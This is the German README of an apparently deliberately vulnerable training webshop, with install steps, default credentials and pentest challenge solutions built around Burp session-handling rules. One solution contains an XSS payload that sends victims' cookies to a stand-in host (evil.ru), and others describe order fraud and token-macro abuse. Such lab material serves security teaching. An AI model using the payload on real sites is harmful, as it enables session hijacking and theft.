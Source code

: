 # Project [Makalu](https://de.wikipedia.org/wiki/Makalu) - An unsecure Webshop with an intentional broken Session Handling
Im Zuge des neuen Online Shops der **anna group** wird auch ein neues Session Handling benötigt. Der hier vorliegende 
Code steht kurz vor dem produktiven Livegang. Trotz der rapiden Entwicklung machen sich erhebliche Zweifel breit, ob
 nicht etwas wichtiges vergessen wurde?

### Motivation
Moderne WebApps verfügen teilweise über eine enorme Komplexität. Um den Kunden vor mögliche Angriffe zu schützen, benötigen unter anderem Requests die an eine WebApp gestellt werden eine Login-Session. Ein Request benötigt üblicherweise die Daten aus einer 
vorherigen Response (bspw. CSRF tokens). Die empfangenen Daten in einem Teilrequest, können auch einige Requests später noch 
benötigt werden wie zum Beispiel während des Checkout Prozesses. Dies macht den Einsatz von "unique" Namen/IDs während der Erstellung eines Requests notwendig. 
 
**Randbemerkung**: Das Fuzzing bspw. im Kontext eines CSRF tokens, erzeugt eine Vielzahl von Daten sowie Aufrufe innerhalb der WebApplikation. Dadurch kann im Falle eines Angriffs, die Performance der gesamten Applikation beeinträchtigen. Die Performance selbst,
steht in diesem Penetrationtests NICHT im Fokus, kann aber je nach gewählter Fuzzing-Methode zu einem "Problem" für den Angriff werden. 

## Problemstellung:
 Helfe der **anna group** durch einen Penetrationtest die Sicherheit des Session Handlings zu prüfen. Um diesen Wunsch
 nachzukommen muss zunächst die Applikation installiert und betriebsbereit gemacht werden. Hierbei hilft 
 sicherlich folgende Anleitung weiter:
 
##### Installation der WebApp
```
1. Install Python 3.4 + virtualenv
2. (optional) virtualenv -p python3 pyenv
3. (optional) . pyenv/bin/activate
4. pip3 install flask
```

##### Starten der WebApp
```
1. (optional, wenn in virtualenv) . pyenv/bin/activate
2. python3 ProjectMaklulaApp.py
3. Öffne die URL: http://localhost:8001 m Browser 
```

#####  [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo 

## Durchführung des Penetrationtests
Für den Test existiert folgende Use Cases. Zur Durchführung des Penetrationtests kann das File 
"/doc/Burp.burp-projectopts.json" mittels [Burp](https://portswigger.net/burp/freedownload/) als Projekt 
geladen werden. In der JSON-Datei sind alle "session handling rules" enthalten, um die nachfolgenden Challenges
zu lösen. Die Challenges können natürlich auch mit anderen Tools wie bspw. OWASP ZAP gelöst werden.

#### Use Case: Bau dir einen eigenen CSRF Token
```
[Challenge]: Der Übertragene CSRF Token muss übereinstimmen und mit jedem POST Request übertragen werden

[Lösung]:
* Capture des Requests von einem bestehenden CSRF Token
* Erstelle eine "Run a Macro" session handling Regel
    * Der Scope liegt auf den Parameter des CSRF Tokens
    * Update den CSRF Token NUR im aktuell gestellten Request
```

#### Use Case: Übernehme die Session eines anderen Users mittels [XSS-Lücke](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Finde ein Eingabefeld, dass eine XSS-Lücke enthält und klaue damit die Session eines ahnungslosen Opfers

[Lösung]:
* Platziere an einer geeigneten Stelle ein inline JavaScript wie beispielsweise: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extrahiere den erbeuteten Cookie aus dem Request und übernehme die Session 
```

#### Use Case: Behalte die Login-Session offen
```
[Challenge]: Mit einer Wahrscheinlichkeit von 5% beenden WebApplikationen die Login-Session

[Lösung]:
* Capture des Login-Requests in einem Makro
* Erstelle eine "Check Session is Valid" Regel
    * Erstelle einen Request
    * Prüfe den Response-Body nach einem Benutzernamen für die gültige Session
    * Alternativ: Prüfe die Umleitung der Login-URL (die Session muss für diesen Fall invalide sein)
    * Spiele das aufgezeichnete Makro ab bei der Invalidierung der Session
```
    
#### Use Case: Begehe Bestellbetrug 
```
[Challenge]: Führe multiple Requests durch bis die finale Bestellbestätigung erscheint

[Lösung]:
* Führe alle Requests durch bis einer mit Hilfe eines Makros gefuzzed werden kann.
* Finalisiere den Bestellbetrug mit einem "Run a Post-Request Macro", dass den aktuellen Request zurück gibt
* Definiere einen engen Definitionsbereich (URL, Parameter)
```

#### Use Case: Löschen von Eingefügten Daten
```
[Challenge]: Aktuell sind nur drei Einträge erlaubt. Um dies etwas gerechter zu machen, soll die "add" 
Funktionalität gefuzzed werden

[Lösung]:
* Lösche nachträglich gerade hinzugefügte Notizen 
    * Erstelle ein POST-request Makro, dass die Object ID extrahiert und anschließend den Löschvorgang anstößt.
```
